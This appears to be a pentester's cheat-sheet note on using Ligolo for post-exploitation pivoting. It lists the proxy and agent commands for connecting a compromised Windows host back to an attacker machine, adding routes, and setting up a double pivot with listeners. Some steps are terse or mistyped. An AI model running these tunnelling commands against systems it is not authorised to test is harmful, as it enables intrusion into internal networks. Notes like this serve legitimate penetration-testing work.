

# Ligolo

## Overview

During post-exploitation and pivoting, Ligolo is used to establish a lightweight tunnelling connection into internal networks through a compromised host. It is particularly useful in scenarios where traditional VPN-style access is not available. Once a tunnel is established, it allows an attacker to route traffic through the compromised machine and interact with internal services as if they were directly connected to the network.

---


```
./proxy -selfcert
```


On pivot machine
```
.\agent.exe -connect 192.168.141.128:11601 -ignore-cert
```


On proxy


On kali
Select session
```
session
```


Setup pivot
Add to our outing table
```
sudo ip route add 192.168.141.0/24 dev ligolo
```


For double pivot
-> Add a second TUN interface

```shell
sudo ip tuntap add user kali mode tun ligolo-double
sudo ip link set ligolo-double up
```
-> Create a listener
```shell
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
listener_list
```
-> Connect to the proxy server
```shell
./agent.exe -connect <IP of First Pivot Point>:11601 -ignore-cert
```
-> Start a tunnel and add a route
```shell
sudo ip add route <New_Network> dev ligolo-double
```
